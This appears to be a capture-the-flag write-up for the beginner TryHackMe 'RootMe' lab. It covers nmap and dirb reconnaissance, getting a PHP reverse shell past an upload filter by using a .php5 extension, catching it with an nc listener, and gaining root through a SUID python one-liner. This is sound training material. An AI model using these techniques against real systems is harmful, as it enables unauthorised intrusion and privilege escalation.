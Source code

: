 # RootMe
A ctf for beginners, can you root me?
![](Images/default_tryhackme.png)
## Task 2
First, let's get information about the target. Here is the **nmap** scan.
```
# Nmap 7.91 scan initiated Mon Jun  7 14:53:05 2021 as: nmap -sC -sV -A -oN nmap/scan 10.10.88.87
Nmap scan report for 10.10.88.87
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  7 14:53:41 2021 -- 1 IP address (1 host up) scanned in 35.82 seconds
```
Seems like we got ssh port open and http port. Let's take look into that web site.

![](Images/web.png)

1. Scan the machine, how many ports are open?
```
 2
```
2. What version of Apache is running? 
```
2.4.29
```
1. What service is running on port 22? 
```
ssh
```
5. What is the hidden directory?

Let's run a dirb or gobuster to find the hidden directory on our website. 

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.scan
START_TIME: Mon Jun  7 15:01:41 2021
URL_BASE: http://10.10.88.87/
WORDLIST_FILES: /opt/seclist/Discovery/Web-Content/raft-medium-directories.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 29984

---- Scanning URL: http://10.10.88.87/ ----
==> DIRECTORY: http://10.10.88.87/js/
==> DIRECTORY: http://10.10.88.87/css/
==> DIRECTORY: http://10.10.88.87/uploads/
==> DIRECTORY: http://10.10.88.87/panel/
```
Seems like we got uploads and something call panel. When we take a look into that panel directory. You can see upload section. This must be our **hidden directory**.

![](Images/panel.png)

## Task 3
Now we got a upload directory. We can use a php-reverse-shell to get a shell. 

We can't upload php files to this website.I tried other extensions such as jpg, and that uploaded successfully. I tried changing the magic number from PHP to jpg of “FF F8 FF DB“. That uploaded the php reverse-shell script but it won’t execute. Then, I realized maybe it is just filtering the .php extension, so I renamed the script to a .php5 extension. And that uploaded successfully and executed and give me a shell. 

![](Images/shell.png)
```bash
┌─[visith@parrot]─[~/CTF/thm/root_me]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.53] from (UNKNOWN) [10.10.88.87] 35046
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:47:11 up 26 min,  0 users,  load average: 0.00, 0.02, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@rootme:/$ ls
ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
www-data@rootme:/$ 
```

Looks like we got a lot of directories. we can go on by one and search for user.txt or you can use this find command. It will make it fast.
```bash
find / -type f -name user.txt 2>/dev/null
```
Let's see this find command in action.
```bash
www-data@rootme:/$ find / -type f -name user.txt 2>/dev/null
find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$ cat /var/www/user.txt             
cat /var/www/user.txt
THM{flag_here}
```
Now we need to get to root user. In their hints they told about SUID. Let's take look into it.

```bash
www-data@rootme:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
Looks like python little bit sus. Let's search about python SUID execution on GTFObins. 

![](Images/suid.png)

Let's do it. First you need to get /usr/bin/ directory to execute our command. 
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Let's see it in action.
```bash
www-data@rootme:/usr/bin$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
#  find / -type f -name root.txt
 find / -type f -name root.txt
/root/root.txt
# cat /root/root.txt
cat /root/root.txt
THM{Flag_here}
# 
```

We pwn it... Thx for reading 


<img src="https://tenor.com/7FNY.gif" width="40" height="40"/>